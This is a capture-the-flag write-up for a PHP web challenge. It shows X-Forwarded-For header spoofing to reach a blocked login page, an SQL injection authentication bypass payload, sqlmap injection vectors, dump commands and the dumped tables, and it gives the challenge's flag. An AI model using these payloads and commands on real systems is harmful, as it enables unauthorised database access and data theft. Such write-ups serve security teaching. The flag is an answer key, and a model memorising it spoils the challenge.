 # Clubmouse

We are presented with a PHP webpage. There is a `login.php`, but it gives us a 403 Forbidden error. Looking a little deeper into `gallery.php` shows us that some of the pictures of the devices include internal subnet addresses.

![](../../.gitbook/assets/image%20%2815%29.png)

![](../../.gitbook/assets/image%20%2816%29.png)

One way that the login page might be filtering requests is by the user's IP address. The `X-Forwarded-For` header is used for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. 

However, it can also be easily changed by the client. By running a Burp Suite Intruder scan for the request header`X-Forwarded-For: 192.168.3.x`, where `x` is the payload, we see that by setting the `X-Forwarded-For` header to `192.168.3.16`, we gain access to the login page.

![](../../.gitbook/assets/image%20%2814%29.png)

We see a form with `username` and `password` fields. Using `'` in username parameter leads to the following output:

```markup
<h4 style='color: red;' class='text-center'>There is a sql error, Call the administrator!</h4>
```

We have identified an SQL injection vulnerability. By using the following payload, we can bypass the authentication.

```text
username=test&password=test' or 1=1 LIMIT 1;#
```

Once logged in as the admin, we have access to a `users.php` page. This page contains usernames and card numbers.

```markup
<tbody>
   <tr>
      <th scope="row">1</th>
      <td>melo</td>
      <td>1457888555215515</td>
   </tr>
   <tr>
      <th scope="row">2</th>
      <td>john</td>
      <td>99888515654864655</td>
   </tr>
   <tr>
      <th scope="row">3</th>
      <td>admin</td>
      <td>85551496165161665</td>
   </tr>
</tbody>
```

This page must also be fetching the user information through the database, so we tested for additional SQL injection endpoints. 

We found that `/users.php?id=1` returns only the data for user ID 1. Fuzzing the input leads us to discover that this is a second SQL injection endpoint. This time, there is a blacklist filter:

```markup
<script>alert('Bad character/word ditected!');</script>
```

Using SQLMap, we get the following injection vectors:

```text
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1') AND 5928=5928 AND ('bLIm'='bLIm

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1') AND (SELECT 2847 FROM (SELECT(SLEEP(5)))MMVq) AND ('pklt'='pklt

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1') UNION ALL SELECT NULL,CONCAT(0x7170786a71,0x4a6d4669536b6565767a724d666e776b46517a7853774374787154644d49664b664b565242485172,0x7171787171),NULL,NULL-- -
---
```

`sqlmap -r get.req --threads 10 --dbms mysql --dump --no-escape --tamper=between` dumps the database.

```text
Database: users_data
Table: data
[3 entries]
+----+-------+-------------------+-----------+
| id | user  | card_num          | R34L_F14G |
+----+-------+-------------------+-----------+
| 1  | melo  | 1457888555215515  | <blank>   |
| 2  | john  | 99888515654864655 | <blank>   |
| 3  | admin | 85551496165161665 | <blank>   |
+----+-------+-------------------+-----------+
```

```text
Database: login_users
Table: users
[1 entry]
+----+-----------------------------+----------+---------------------+
| id | password                    | username | created_at          |
+----+-----------------------------+----------+---------------------+
| 1  | R34ly_h4rd_p@ssw0rd_t0_f1nd | admin    | 2021-07-13 03:15:21 |
+----+-----------------------------+----------+---------------------+
```

We see that there is a `R34L_F14G` column, but it is returning us `<blank>` results. I looked deeper into the SQLMap queries, and found that the following query is used to retrieve the column values.

`GET /users.php?id=1%27)%20UNION%20ALL%20SELECT%20NULL,CONCAT(%27qzppq%27,JSON_ARRAYAGG(CONCAT_WS(%27kbxmel%27,card_num)),%27qpbzq%27),NULL,NULL%20FROM%20users_data.data%20ORDER%20BY%20card_num--%20-`

Replacing `card_num` with `R34L_F14G` fails the blacklist filter, so SQLMap was unable to retrieve any results.

Remember `login.php` from earlier? It did not filter `R34L_F14G`, but it does have an SQL injection vector too. It was a blind SQL injection, so retrieving information from the database would be time-based and it would have been too slow to dump the entire database. 

However, by specifying the specific table and column to dump, we got our results much faster.

`sqlmap -u http://challenges.ctfd.io:30232/login.php --headers=“X-Forwarded-For: 192.168.3.16” --data “password=1&username=test” --dbms=mysql --tamper=between -D users_data -T data -C R34L_F14G --dump --where “id=3”`

This gave us the flag, `S3D{G0_De3Per_L1k3_a_pr0_r3d_T3aMEr}`.


